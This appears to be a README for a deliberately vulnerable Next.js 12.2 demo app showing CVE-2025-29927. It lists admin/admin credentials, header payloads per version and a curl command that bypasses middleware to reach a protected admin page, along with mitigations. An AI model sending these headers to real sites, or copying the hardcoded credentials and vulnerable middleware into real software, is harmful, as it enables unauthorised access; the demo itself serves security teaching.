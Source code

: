 # Hello World - Next.js 12.2

A simple proof of concept Next.js 12.2 application.

## 🚀 Quick Start

### 1. Install Dependencies
```bash
npm install
```

### 2. Run the Development Server
```bash
npm run dev
```

The application will be available at `http://localhost:3000`


## 🛠️ Available Scripts

- `npm run dev` - Start development server
- `npm run build` - Build for production
- `npm run start` - Start production server

## 🎯 Features

- ✅ **Next.js 12.2** - Latest stable version
- ✅ **React 18.2** - Modern React features
- ✅ **Simple Design** - Clean, responsive UI
- ✅ **Authentication System** - Login with hardcoded credentials
- ✅ **Admin Panel** - Protected dashboard with sensitive data
- ✅ **Vulnerable Middleware** - Demonstrates auth bypass techniques
- ✅ **Exploit Demo** - Easy to reproduce security issues

## 🔧 Customization

Edit `pages/index.js` to modify the Hello World page. The application uses inline styles for simplicity, but you can add CSS files or styling libraries as needed.

## 🔓 CVE-2025-29927 Security Demo

This application demonstrates the **CVE-2025-29927** vulnerability discovered by Rachid.A (zhero) and Yasser Allam (inzo_):

### 📋 Vulnerability Details
- **CVE:** CVE-2025-29927
- **CVSS:** 9.1/10 (Critical)
- **Affected:** Next.js 11.1.4 - 15.2.2
- **Impact:** Complete middleware bypass using `x-middleware-subrequest` header

### 🎯 Demo Credentials
- **Username:** `admin`
- **Password:** `admin`

### 🚨 CVE-2025-29927 Exploit Methods
1. **Browser Extension (ModHeader)** - Add `x-middleware-subrequest: middleware` header
2. **JavaScript Console** - Use fetch with the bypass header
3. **cURL Exploit** - `curl -H "x-middleware-subrequest: middleware" http://localhost:3000/admin`
4. **Python Requests** - Add header to bypass middleware completely

### 🔧 Payload Variations
- **Next.js 12.2+:** `x-middleware-subrequest: middleware`
- **With /src directory:** `x-middleware-subrequest: src/middleware`
- **Next.js 15.x:** `x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware`


### 🛡️ Mitigation
- Update to Next.js 15.2.3+ (14.2.25+ for 14.x)
- Block `x-middleware-subrequest` header at proxy/CDN level
- Implement additional server-side validation

**⚠️ WARNING: This demonstrates a real CVE for educational purposes only!**

## 📦 Dependencies

- **next**: 12.2.0
- **react**: 18.2.0
- **react-dom**: 18.2.0

## 🎨 Styling

This application uses inline styles for simplicity. For a production app, consider using:
- CSS Modules
- Styled Components
- Tailwind CSS
- Or any other styling solution

---

**Happy coding! 🚀** 
